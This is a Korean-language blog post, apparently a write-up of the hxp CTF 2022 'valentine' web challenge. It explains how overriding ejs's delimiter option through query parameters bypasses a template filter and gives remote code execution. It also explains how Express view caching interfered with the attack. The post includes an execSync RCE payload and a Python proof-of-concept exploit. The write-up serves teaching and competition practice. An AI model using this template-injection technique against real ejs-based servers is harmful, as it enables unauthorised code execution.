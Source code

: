 ```yaml
---
title: '[CTF][hxp CTF 2022] valentine'
author: hoppi
date: 2023-03-14 22:01:00 + 0000
categories: [CTF]
tags: [ctf, hxp_2022, valentine, web]
---
```


오랜만에 CTF에 참여했습니다. 앞으로는 좀 더 자주 참여하려구요. 참고로 이 문제는 기간동안 풀지 못했습니다. 했던 방법이 안돼서 뭔가 내가 모르는게 있나 싶었는데 끝나고 롸업을 보니 유저 이슈... 올해는 유저 이슈를 줄여보도록 하자라고 마음먹었는데 제 자신한테 화가 나내요🥲

# 분석
***

## 플레그 위치
*** 
플레그는 아래처럼 `flag.txt`로 존재하지만 `Dockerfile`을 보면 읽을 권한은 `root`만 가지고 있어서 우리는 `readflag` 바이너리를 실행해야합니다. 즉 `RCE`가 필요하다는 것을 알 수 있죠.  
```plaintext
├── Dockerfile
├── app.js
├── docker-compose.yml
├── flag.txt
├── index.html
├── node_modules
├── package-lock.json
├── package.json
├── readflag
```
<br/>

## 기능
***
아래처럼 `/template` 엔드포인트를 통해서 `ejs` 템플릿 구문을 사용할 수 있지만 `<%= name %>`만 허용하고 있습니다. 
```javascript
// app.js: 19
app.post('/template', function(req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
      return;
    }
  }
  let uuid;
  do {
    uuid = crypto.randomUUID();
  } while (fs.existsSync(`views/${uuid}.ejs`))

  try {
    fs.writeFileSync(`views/${uuid}.ejs`, tmpl);
  } catch(err) {
    res.status(500).send("Failed to write Valentine's card");
    return;
  }
  let name = req.body.name ?? '';
  return res.redirect(`/${uuid}?name=${name}`);
});
```
{: file='app.js'}
<br/>

# 취약점
***
ejs의 경우 템플릿 구문을 커스텀할 수 있는데 그렇게 되면 `RCE`를 할 수 있습니다. 그렇다면 어떻게 우회를 해야할까요?
![custom](../../../assets/img/2023-03-14/custom.png){: w="700" h="350" }  
<br/>

유명한 취약점인 [CVE-2022-29078](https://eslam.io/posts/ejs-server-side-template-injection-rce/)는 `ejs@3.1.6`에서 `RCE`를 가능하게 합니다. `req.query` 객체를 한번에 `res.render`의 인자로 넘겨줄 때 발생하죠. 이 문제도 마찬가지로 그렇게 주고 있었습니다.  
```javascript
// app.js: 43
app.get('/:template', function(req, res) {
  let query = req.query;
  console.log(`[+] query ==> ${JSON.stringify(query)}`)
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});

```
{: file='app.js'}
<br/>

하지만 이 문제의 경우 `3.1.8` 버전이고 ~~bodyParser.urlencoded의 extended가 false여서 객체의 객체를 파싱하지 못합니다.~~ 하지만 해당 취약점의 글을 자세히 보면 `ejs` 내부에서 쓰는 옵션을 쿼리 스트링형식으로 전달해주면 그것을 덮어씌울 수 있게됩니다. 따라서 `delimeter`를 커스텀하여 `<%= name %>`를 우회할 수 있게 됩니다.  
```javascript
...

var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
```
{: file='ejs.js'}
<br/>


# Exploit
***
아래와 같이 원하는 `delimeter`만 설정하여 `RCE` 페이로드를 `tmpl`으로 설정해주고 `delimeter`를 넘겨주면 됩니다.  
```plaintext
<@- process.mainModule.require('child_process').execSync('/readflag') @>
```
{: file='tmpl'}
<br/>

하지만 `tmpl`을 작성하고 전송하면 해당 파일로 바로 `Redirect` 됩니다. `Dockerfile`을 보면 아래와 같은 설정이 존재하는데 바로 `express`에서 `캐싱`을 설정하는 것이었죠. 리다이렉트되면 기본 `delimeter`인 `%`가 캐싱되는 것이죠. 따라서 리다이렉트되고 나서 `delimeter` 파라미터를 설정해줘도 정상적으로 `exploit`이 되지 않았던 이유입니다. 제가 풀지 못했던 이유가 이것입니다... 좀 더 생각해보고 시도했으면 풀었을텐데 너무 아쉽네요   
```plaintext
ENV NODE_ENV=production
```
{: file='Dockerfile'}
<br/>

```javascript
if (env === 'production') {
  this.enable('view cache');
}
```
{: file='express/application.js'}
<br/>

## PoC Code
***
요청을 보낼때 `allow_redirects`를 `false`로 설정해주어 리다이렉트를 막으면 됩니다.  
```python
from requests import post, get
from re import search

info = lambda x : print(f"[+] {x}")

URL ='http://168.119.235.41:9086'
FLAG =''


res = post(f"{URL}/template", data={"tmpl":"<@- process.mainModule.require('child_process').execSync('/readflag') @>"}, allow_redirects=False)

m = search(r"Redirecting to /(?P<uuid>.*?)?name=", res.text)
res = get(f"{URL}/{m.group('uuid')}?name=a&delimiter=@")
m = search(r"hxp{.*?}", res.text)
if m :
    FLAG = m.group()
    info(f'Flag is {FLAG}')
else :
    print(f"[-] Failed to find the flag")

```
{: file='exploit.py'}
<br/>

# 추가
***
본문에 취소선을 한 이유는 `express.urlencoded`와 혼동했기 때문입니다. 결론은 `bodyParser.urlencoded`는 아무런 영향이 없습니다. 따라서 `3.1.8`버전의 `0-day exploit`이 가능할 수 있지만 이 역시 `캐시` 때문에 되지 않을겁니다. 아무튼 드림핵에 [ejs@3.1.8](https://dreamhack.io/wargame/challenges/675/)과 [Note](https://dreamhack.io/wargame/challenges/644/) 문제가 있는데 이 문제와 같이 보면 이해하는데 아주 도움이 될 것 같습니다.
<br/>

# Reference
***
- [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
- [https://www.npmjs.com/package/ejs](https://www.npmjs.com/package/ejs)
- [https://hxp.io/blog/101/hxp-CTF-2022-valentine/](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)